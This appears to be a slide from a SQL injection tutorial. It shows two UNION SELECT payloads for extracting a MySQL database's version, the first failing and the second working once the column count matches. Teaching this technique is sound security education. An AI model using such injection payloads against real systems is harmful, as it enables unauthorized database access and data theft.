

# Now for the attack!!
Step 2: Getting other useful information
Let’s try to extract the MySQL version
1’ UNION SELECT @@version;-- -
DON’T WORK!!
Let’s try to extract the version number again!
1’ UNION SELECT 1,2,@@version;-- -
NOW WORKS. NOTE UNION STATEMENTS NEED TO HAVE SAME NUMBER OF COLUMNS AND COMPATIBLE DATA TYPES